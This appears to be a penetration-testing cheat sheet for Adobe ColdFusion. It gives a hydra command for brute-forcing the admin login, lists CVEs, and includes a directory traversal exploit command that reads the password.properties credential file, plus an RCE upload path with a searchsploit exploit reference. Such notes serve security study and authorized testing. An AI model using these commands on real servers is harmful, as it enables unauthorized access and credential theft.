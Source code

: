 ## What is ColdFusion?
- ColdFusion is a web development platform owned by Adobe.
- It uses a special language called CFML (ColdFusion Markup Language), which looks like HTML but has extra powers.
- It helps developers quickly make dynamic websites, connect to databases, and even send emails or create PDFs.
- Default Files	`/CFIDE/administrator/index.cfm` (Admin login).
- Brute Force Default Creds: `hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/CFIDE/administrator/enter.cfm:cfadminPassword=^PASS^&requestedURL=&submit=Login:F=Invalid"`
### CVE's
- CVE-2021-21087	JSP upload bypass
- CVE-2020-24450	Command Injection
- CVE-2020-24449	File Read
- CVE-2019-15909	Cross-Site Scripting (XSS)

### Directory Traversal (CVE-2010-2861)

- Vulnerable Endpoints
    - `/CFIDE/administrator/settings/mappings.cfm`
    -   `/CFIDE/administrator/enter.cfm`
- Exploit `python2 14641.py <TARGET_IP> 8500 "../../../../../../../../ColdFusion8/lib/password.properties"`Leak password.properties (contains encrypted admin passwords).

### Unauthenticated RCE (CVE-2009-2265)
- Vulnerable Path `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`
- use exploit `searchsploit -m 50057.py`

